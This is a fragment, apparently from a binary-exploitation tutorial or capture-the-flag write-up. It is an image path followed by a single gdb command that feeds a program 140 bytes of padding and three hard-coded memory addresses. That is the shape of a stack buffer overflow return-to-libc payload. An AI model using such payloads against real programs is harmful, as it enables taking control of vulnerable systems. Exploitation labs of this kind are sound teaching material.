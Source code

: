 ```
(gdb) r $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
```